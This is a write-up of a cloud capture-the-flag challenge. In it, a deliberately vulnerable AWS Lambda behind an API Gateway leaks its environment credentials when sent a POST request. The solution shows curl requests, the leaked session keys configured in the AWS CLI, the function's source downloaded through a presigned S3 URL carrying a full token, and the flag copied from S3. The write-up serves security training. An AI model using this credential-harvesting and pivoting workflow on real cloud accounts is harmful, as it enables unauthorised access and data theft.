 # Challenge 3

We are back with another challenge of the week. Our Security team discovered a API Gateway during one of their Red Team assessment. They decided to share the information with everyone 😛

“We found that a API Gateway with ID **l245s1kgqa** in **us-east-1** region. We suspect some serious security lapse. Help us prove this to their team”

You can DM us the flag at [@securitylabs_](http://twitter.com/securitylabs_) to verify it. We might have some surprise for you!

_For more such interesting labs and content register for beta at [https://securitylabs.tech](https://securitylabs.tech/)_

Have fun hacking cloud with SecurityLabs 🙂

---

## Solution:
**Find the API Endpoint**

Looking at amazon api gateways it uses a standard syntax
https://docs.aws.amazon.com/apigateway/latest/developerguide/how-to-call-api.html

```
https://{restapi_id}.execute-api.{region}.amazonaws.com/{stage_name}/
where `{restapi_id}` is the API identifier, `{region}` is the Region, and `{stage_name}` is the stage name of the API deployment.
```

Navigating to https://l245s1kgqa.execute-api.us-east-1.amazonaws.com
Displays a message "Hello from Lambda!"

```
curl -i https://l245s1kgqa.execute-api.us-east-1.amazonaws.com
HTTP/2 200
date: Mon, 28 Feb 2022 05:57:33 GMT
content-type: text/plain; charset=utf-8
content-length: 20
apigw-requestid: OPScMgCsIAMEJNQ=

"Hello from Lambda!"
```
So seems correct


API
After some standard  API fuzzing, we find that the gateway spits out the environment variables in error message when sending a POST request.
```
curl -i https://l245s1kgqa.execute-api.us-east-1.amazonaws.com -X POST
HTTP/2 200
date: Mon, 28 Feb 2022 05:57:55 GMT
content-type: text/plain; charset=utf-8
content-length: 2018
apigw-requestid: OPSflhF0oAMEJ9Q=

Error processing input. Triggering panic attack
AWS_LAMBDA_FUNCTION_VERSION:$LATEST
GEM_HOME:/var/runtime
AWS_SESSION_TOKEN:IQoJb3JpZ<redacted>iCftaOaEUzfOUM9g=
AWS_LAMBDA_LOG_GROUP_NAME:/aws/lambda/Challenge-3
LD_LIBRARY_PATH:/var/lang/lib:/lib64:/usr/lib64:/var/runtime:/var/runtime/lib:/var/task:/var/task/lib:/opt/lib
LAMBDA_TASK_ROOT:/var/task
AWS_LAMBDA_LOG_STREAM_NAME:2022/02/28/[$LATEST]2e9d2eeaee2e42bf8585866379225b33
AWS_LAMBDA_RUNTIME_API:127.0.0.1:9001
AWS_EXECUTION_ENV:AWS_Lambda_ruby2.7
AWS_LAMBDA_FUNCTION_NAME:Challenge-3
AWS_XRAY_DAEMON_ADDRESS:169.254.79.129:2000
PATH:/var/lang/bin:/var/lang/bin:/usr/local/bin:/usr/bin/:/bin:/opt/bin
AWS_DEFAULT_REGION:us-east-1
PWD:/var/task
AWS_SECRET_ACCESS_KEY:wgx2<redacted>KaW
LAMBDA_RUNTIME_DIR:/var/runtime
LANG:en_US.UTF-8
AWS_LAMBDA_INITIALIZATION_TYPE:on-demand
AWS_REGION:us-east-1
TZ::UTC
AWS_ACCESS_KEY_ID:ASIAW<redacted>JVB
SHLVL:0
_AWS_XRAY_DAEMON_ADDRESS:169.254.79.129
_AWS_XRAY_DAEMON_PORT:2000
GEM_PATH:/var/task/vendor/bundle/ruby/2.7.0:/opt/ruby/gems/2.7.0
AWS_XRAY_CONTEXT_MISSING:LOG_ERROR
_HANDLER:lambda_function.lambda_handler
AWS_LAMBDA_FUNCTION_MEMORY_SIZE:128
RUBYLIB:/var/task:/var/runtime/lib:/opt/ruby/lib
_X_AMZN_TRACE_ID:Root=1-621c6463-7a23b5a4598ff11316f236ac;Parent=0193d1e126545167;Sampled=0
```

**AWS ACCESS SETUP**

As we have the aws key for the machine/function lets configure it and look around.
```
aws configure --profile cloudchall set aws_session_token IQoJb3J<redacted>EUzfOUM9g=
aws configure --profile cloudchall set aws_secret_access_key wgx2<redacted>KaW
aws configure --profile cloudchall set aws_access_key_id ASIAW<redacted>JVB
aws configure --profile cloudchall set region us-east-1

```


Confirm it all works


sts get-caller-identity --profile cloudchall

{

 "UserId": "AROAWDYZAHXY6QOP5LBUJ:Challenge-3",

 "Account": "420422368753",

 "Arn": "arn:aws:sts::420422368753:assumed-role/Challenge-3-role-54hml7a1/Challenge-3"

}


**AWS ENUM**

So i'm skipping the bit where I did a bunch of enum that didn't work. As we have limited permissions

Trying to list lambda functions
```
aws lambda list-functions --profile cloudchall

An error occurred (AccessDeniedException) when calling the ListFunctions operation: User: arn:aws:sts::420422368753:assumed-role/Challenge-3-role-54hml7a1/Challenge-3 is not authorized to perform: lambda:ListFunctions on resource: * because no identity-based policy allows the lambda:ListFunctions action
```

Trying to get EC2 instances
```
aws ec2 describe-instances --profile cloudchall

An error occurred (UnauthorizedOperation) when calling the DescribeInstances operation: You are not authorized to perform this operation.
```

Going back to the initial environment dump to see what other information we have also got the this bit of information.

AWS_LAMBDA_FUNCTION_NAME:Challenge-3

Using the function name we can directly get that function

```
aws lambda get-function --function-name Challenge-3 --profile cloudchall

{

 "Configuration": {

 "FunctionName": "Challenge-3",

 "FunctionArn": "arn:aws:lambda:us-east-1:420422368753:function:Challenge-3",

 "Runtime": "ruby2.7",

 "Role": "arn:aws:iam::420422368753:role/service-role/Challenge-3-role-54hml7a1",

 "Handler": "lambda_function.lambda_handler",

 "CodeSize": 552,

 "Description": "",

 "Timeout": 3,

 "MemorySize": 128,

 "LastModified": "2022-02-22T13:36:25.000+0000",

 "CodeSha256": "sc5FFDFxY6tZ3aTI6juPecg8mn/EQYWnTCEKJspgyMo=",

 "Version": "$LATEST",

 "TracingConfig": {

 "Mode": "PassThrough"

 },

 "RevisionId": "df340cbb-03f7-4bcb-9ccd-d84923b9e72c",

 "State": "Active",

 "LastUpdateStatus": "Successful",

 "PackageType": "Zip",

 "Architectures": [

 "x86_64"

 ]

 },

 "Code": {

 "RepositoryType": "S3",

 "Location": "https://prod-04-2014-tasks.s3.us-east-1.amazonaws.com/snapshots/420422368753/Challenge-3-6a758020-35e0-46a3-9443-cd0865580fdc?versionId=mD5nA_l1nBbvFkqLrqdYJWAb4dsmgZ41&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEA8aCXVzLWVhc3QtMSJGMEQCIHCqTR5noRmPkslZMau2VQnElV6w4WBNpoO8i59AWTKCAiBzp3IU%2Ft4iDxB0c%2F6Qd66rxDIjBQZO%2BQ1Wzg8uzklJ8Sr6AwhoEAAaDDc0OTY3ODkwMjgzOSIMfQYVEHB%2FlDQuQw6LKtcDMBFs3hauLaF2LQCOScyB%2BfTCL5GDCSroMr8Z4IX%2FaGOTkvJQXEFC0RR0KpC2DzOXSEsWI0G73gFEED5RBiZUAqB%2Fg4o7%2FFhuS6Pdx7%2B%2FOmvgmn9xxh%2F%2BfPwWhIve%2BYy0wk2hGx8ezCp7u%2F%2BXFO5BX63xv9zr1OXkOoJaE2m0whn6s197%2BSi%2BbqSYDASqWYkEJtqrG3eCXFWisDZ5xELZ7XcKdawSd6esP7XqDxA94JANxVCfNGN%2FAdQS3NcE%2FBa2KcuJNi92wvZnAoMsbvYrZKAvLTrPrPQHllE%2Fgny7TylbcumVeQFG9tgzXnXvICikBUWAk75C8o9mqF6SLilnxY578kEFUZELIzFvLDrrIsr2Znaxs1iYC8QrK4VMrz4t2pbZzw8h2kUPVvEUi3bGSL%2F0DUizIkFVMBROmpybKhxdtdPlWnmjCWkh4Tx26nRl9yk6wooZ4rHbp2F2WSuIrYyMZ7D554AwsR8e4LqVEYlzHpKGaEodmfXogFf7yTO0sWbEiyw69x3fyzcOVPLvmuy65JuSkEwvdwuHo8HKgitvK7vwaAtFRGVgQE621hx47ovIaD0ymgblUTVwhA2S85a5q8tj6sHlO%2FW0kHDN0vzRXx1bLxWNMJvF1ZAGOqYBh4RLAOnkwLHCY5hD%2BS8JWOIEsYHEjGd3gAUW7MHGE6f%2BYHMSh2koWpIoitO%2F7UTSTYvBkShtzwuhPDPrZC3J0UOTK%2Bq1Kj3fGsNPntZ2jiXKGxpb2QiLS57KNGGAIx9dgqIyCH02FXGE0ZZvacMz6AF2tWw1f%2FQecGZncOOj6BbxLm21YnPjC8NMnc7JPV6FdCDf7x0Bu4EOCj8rfaqOt0kXShhzeg%3D%3D&X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Date=20220222T232244Z&X-Amz-SignedHeaders=host&X-Amz-Expires=600&X-Amz-Credential=ASIA25DCYHY3QCK55KEO%2F20220222%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Signature=a989c8be35e63296187783165eb0a5cefce13fcea345b4609f6561023f997e4c"

 }
}
```

**GET THAT FLAG**

We are able to directly download the source code using the location provided.
```
require 'json'
require 'aws-sdk-s3'

def lambda_handler(event:, context:)
    # TODO implement
    if event['requestContext']['http']['method'] == 'POST'
        # puts event
        # s3 = Aws::S3::Client.new
        # resp = s3.get_object(bucket:'challenge-3', key:'my-secret-flag.txt')
        # puts resp.body.string
        output = "Error processing input. Triggering panic attack \n"
        for val in ENV.keys do
            output = output + val+":"+ENV[val] + "\n"
        end
        return { statusCode: 200, body: output }
    elsif event['requestContext']['http']['method'] == 'OPTIONS'
        return { statusCode: 200, body: JSON.generate('You are on right track. Gotta try harder!') }
    else
        return { statusCode: 200, body: JSON.generate('Hello from Lambda!') }
    end
end
```

we now directly copy the flag
```
aws s3 cp s3://challenge-3/my-secret-flag.txt . --profile cloudchall

download: s3://challenge-3/my-secret-flag.txt to ./my-secret-flag

cat my-secret-flag.txt
```
